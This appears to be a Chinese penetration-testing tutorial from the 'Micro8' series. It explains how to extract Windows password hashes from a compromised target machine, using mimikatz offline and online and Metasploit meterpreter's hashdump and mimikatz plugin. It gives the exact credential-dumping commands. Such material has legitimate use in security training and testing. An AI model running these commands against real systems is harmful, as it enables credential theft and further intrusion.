 ```yaml
---
title: 65、离线提取目标机hash补充
date: 2019-09-21 19:06:00
comments: true
categories: 
 - Micro8系列
---
```



上一季下载sys.hiv,sam.hiv,security.hiv文件后，以Linux下为背景来离线提取hash，本季补充以windows为背景离线提取hash。

mimikatz 2.0 二进制文件下载地址：  
https://github.com/gentilkiwi/mimikatz/releases/latest  
切到当下目录（注意X86,X64位）

mimikatz离线导hash命令：  
```code
mimikatz.exe "lsadump::sam /system:sys.hiv /sam:sam.hiv" exit
```

![](../do/media/92ae7706ceec3aa04bce07e08ced2e16.jpg)

mimikatz在线导hash命令：

```code
mimikatz.exe "log Micropoor.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

![](../do/media/88ab6bceca9f6a733b768b1ccfefe688.jpg)

当然关于提取目标机的hash，msf也内置了离线提取与在线提取hash。

meterpreter下hashdump命令来提取hash（注意当前权限）  
![](../do/media/79e0ae6ee3518126f0c11872201c70fb.jpg)  

![](../do/media/5808e7c6ac005d96f8289f994db6e45e.jpg)

msf同时也内置了mimikatz，meterpreter执行load mimikatz即可加载该插件。**（这里一定要注意，msf默认调用于payload位数相同的mimikatz）**  

![](../do/media/3535a826c17c149f290fd79bd2fe865a.jpg)

直接执行kerberos即可。  

![](../do/media/0134f11ff22c5d4450f173c8e5ce9717.jpg)

当然有些情况下，payload位数无误，权限无误，依然无法提取目标机的密码相关。需要调用mimikatz自定义命令：
```code
mimikatz_command -f sekurlsa::searchPasswords
```
![](../do/media/ae5d3f87f6df54f4a42bfa231e5847c0.jpg)

>   Micropoor
